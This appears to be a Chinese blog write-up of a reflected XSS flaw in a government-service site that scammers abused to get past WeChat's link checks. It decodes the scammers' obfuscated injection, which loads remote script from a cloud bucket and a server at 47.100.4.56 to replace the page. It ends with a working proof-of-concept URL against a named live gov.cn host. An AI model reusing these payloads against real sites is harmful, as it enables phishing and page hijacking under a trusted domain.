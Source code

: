 ```yaml
---
title: 政务网漏洞
categories:
  - study
  - web
tags: web
---
```


### 漏洞发现

朋友圈看到有骗人分享，链接是 `gov.cn`，通过政务网做跳板，绕过微信备案风控。

![朋友圈](1.jpg)

### 漏洞分析

抓包溯源链接为

```
https://xxxxxxxxx.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=%22%3B%7D%29%25%318%3Bi2%3D%27bjk%27%3Ba%3D%7B%27l%27%3Athis%2C%27k%27%3A%27%5C163etTimeout%27%2C%27r%27%3A%27a%27%2C%27t%27%3A%27%5C164o%5C142%27%7D%3Ba.l%5Ba.k%5D%28a.l%5Ba.r%2Ba.t%5D%28i2%2B%279ZG9jdW1lbnQNCm45LmRvY3VtZW50RWxlbWVudC5oaWRkZW49JzEnDQpuOS50aXRsZT0nTG9hZGluZy4uLicNCmltcG9ydCgnLy92MmxvYWQub3NzLWNuLXNoYW5naGFpLmFsaXl1bmNzLmNvbS9oejE1LmpzPz8%2Fd3g9Jyk%3D%27%2C1%29%29%25%318%3B%24%28function%28%29%20%7Bvar%20orgCode%20%3D%20%22&gdohll=cd1c3558c715249c11286cba506430c183efe2fcabf30dddaeff81be20aa1713abf60d#1680926768635
```

通过 `decodeURIComponent` 获取得

```
`https://xxxxxxxxx.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=";})%18;i2='bjk';a={'l':this,'k':'\\163etTimeout','r':'a','t':'\\164o\\142'};a.l[a.k](a.l[a.r+a.t](i2+'9ZG9jdW1lbnQNCm45LmRvY3VtZW50RWxlbWVudC5oaWRkZW49JzEnDQpuOS50aXRsZT0nTG9hZGluZy4uLicNCmltcG9ydCgnLy92MmxvYWQub3NzLWNuLXNoYW5naGFpLmFsaXl1bmNzLmNvbS9oejE1LmpzPz8/d3g9Jyk=',1))%18;$(function() {var orgCode = "&gdohll=cd1c3558c715249c11286cba506430c183efe2fcabf30dddaeff81be20aa1713abf60d#1680926768635`
```

一眼 `orgCode` 接口未限制，可以任意执行 js。

![漏洞发现](2.jpg)

### 代码分析

拆解分析后得知，
``
"n9=document\r\nn9.documentElement.hidden='1'\r\nn9.title='Loading...'\r\nimport('//v2load.oss-cn-shanghai.aliyuncs.com/hz15.js???wx=')"

``
![漏洞分析](3.jpg)

注入后通过 `http://v2load.oss-cn-shanghai.aliyuncs.com/hz15.js???wx=` 载入远程代码

```
document.title="Loading...";document.documentElement.hidden=1;
(function(){
    var rmd = Math.random().toString(36).substr(2,7);
    var geUrl='//47.100.4.56/'+rmd+'?ref='+encodeURIComponent(location.href.split('#')[0]);
    var xhr=new XMLHttpRequest;xhr.onload=function(){var onhash=window.onhashchange;var h=xhr.responseText;var a=document.open("text/html","replace");a.write(h);a.close();window.onhashchange=onhash};
    xhr.open("GET",geUrl,!0);xhr.send();
})();
```

最终载入 `47.100.4.56` (阿里云上海) 服务器上的页面

尝试在 `orgCode` 带入不同入参后确认后端无任何过滤，直接返回前端输入导致漏洞

![漏洞尝试](4.jpg)

### 漏洞复现

所以可以通过构造字符串执行任意代码。
例如以下链接，弹出 `株洲公安`，并跳转 `株洲市公安局官网`

```
https://gzkfq.jxzwfww.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=%22;alert(%27%E6%A0%AA%E6%B4%B2%E5%85%AC%E5%AE%89%27)%3Bwindow.location.href%3D%22http%3A%2F%2Fgaj.zhuzhou.gov.cn
```
